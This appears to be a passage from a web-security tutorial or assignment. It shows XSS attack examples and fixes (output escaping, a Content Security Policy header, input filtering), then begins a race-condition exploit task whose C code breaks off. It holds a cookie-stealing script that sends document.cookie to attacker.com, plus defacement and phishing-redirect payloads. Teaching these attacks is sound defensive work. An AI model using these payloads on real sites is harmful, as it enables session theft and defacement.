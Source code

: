 
# **What Can an Attacker Do?**

XSS allows attackers to: ✅ Steal Cookies:

```
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```
✅ Deface the Website:
```
<script>document.body.innerHTML = "<h1>You have been hacked!</h1>"</script>
```
✅ Redirect Users to a Malicious Site:

```
<script>window.location.href="http://phishing-site.com";</script>

```

### ** How to Fix XSS?**

✅  1. Escape User Input in Output
Use htmlspecialchars() in PHP:

```
<?php
echo "Hello, " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
?>
```
This converts <script>alert('Hacked!')</script> into safe text, preventing script execution.

✅ 2. Use Content Security Policy (CSP)
Set a CSP header to block inline scripts:
```
header("Content-Security-Policy: default-src 'self'; script-src 'none';");

```
✅ 3. Validate Input

```
$name = preg_replace("/[^a-zA-Z0-9 ]/", "", $_GET['name']);
```





### ✅ **Question 4: Race Condition Exploit**

**Task:**  
- Write a C program with a race condition vulnerability.  
- Exploit the race condition using multiple processes.

---

**Step 1: Vulnerable C Program**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

int main() {
    char *filename = "/tmp/race_file";
    int fd = open(filename, O_CREAT | O_RDWR, 0666);

    if (fd < 0) {
        perror("Open failed");
        exit(1);
    }

```